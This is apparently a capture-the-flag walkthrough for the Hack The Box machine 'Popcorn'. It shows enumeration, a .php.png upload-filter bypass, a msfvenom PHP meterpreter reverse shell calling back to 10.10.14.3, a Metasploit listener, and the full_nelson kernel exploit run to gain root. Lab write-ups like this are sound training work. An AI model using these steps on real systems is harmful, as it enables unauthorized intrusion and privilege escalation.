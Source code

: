 # Popcorn 10.10.10.6


- Linux 2.6.31-14
- Bittornado exploit : file upload (xx.php.png)
- Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 https://www.exploit-db.com/exploits/15704



## nmap
````
$ nmap -A 10.10.10.6
````
=> 80

## dirb -> bittornado
````
$ dirb http://10.10.10.6
http://10.10.10.6/torrent/
````
Bittornado is a torrent client. 

## Bittornado exploit : file upload (xx.php.png)

Register an account
Upload a torrent
Submit a screenshot : need to upload a .png file

Rename .php => .php.png 

Build a .php reverse shell
````
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw  > 123.php.png
````

Intercept the Post with Burp
Rename 123.php.png to 123.php
Meterpreter is uploaded... where ?

````
dirb http://10.10.10.6/torrent/
http://10.10.10.6/torrent/upload/ 
````
## Get meterpreter

Prepare a listener
````
$ msfconsole
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.3
msf exploit(multi/handler) set lport 4321
msf exploit(multi/handler) exploit

meterpreter > sysinfo
 Linux popcorn 2.6.31-14
````

## Pric esc : full_nelson

=> Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 Privilege to get root
````
https://www.exploit-db.com/exploits/15704
````


upload 15704.c
shell
````
gcc 15704.c -o exploit
chmod 755 exploit
./exploit
id
uid=0(firefart)
cat /root/root.txt
````
 

